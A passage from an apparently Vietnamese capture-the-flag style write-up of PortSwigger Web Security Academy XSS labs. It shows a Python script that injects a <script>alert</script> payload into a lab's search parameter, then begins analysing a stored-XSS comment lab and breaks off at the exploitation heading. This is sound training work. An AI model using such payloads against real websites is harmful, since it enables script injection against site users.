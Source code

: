 mình đã viết lại script khai thác

```python
#!/usr/bin/python3.7
import requests
from bs4 import BeautifulSoup
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from urllib.parse import quote

url = 'https://0a4700800369fbdb81f5037f006400a5.web-security-academy.net'

response = requests.get(
    url + "/?search=<script>alert('XSS')</script>",
)

soup = BeautifulSoup(response.text,'html.parser')
print(soup)
```

![image](https://hackmd.io/_uploads/SygZU4U56.png)

mục đích của chúng ta đã hoàn thành và mình cũng đã giải quyết được bài lab này

![image](https://hackmd.io/_uploads/SyHHU4Ica.png)

## 2. Lab: Stored XSS into HTML context with nothing encoded

link: https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded

### Đề bài

![image](https://hackmd.io/_uploads/SJ_tINUqT.png)

### Phân tích

- Lab này chứa lỗ hổng stored-XSS ở chức năng comment, để solve lab thì mình cần submit comment mà gọi ra chức năng alert khi xem blog post

- Khi ấn vào bên trong một blog post, thì dưới cùng sẽ là chỗ để ta bình luận, với các nội dung: Comment, tên, email, website

![image](https://hackmd.io/_uploads/HkOFPEIc6.png)

![image](https://hackmd.io/_uploads/HJ7jPELca.png)

mình bình luận và thấy web chỉ lọc tên người comment mà không lọc nội dung bình luân

### Khai thác
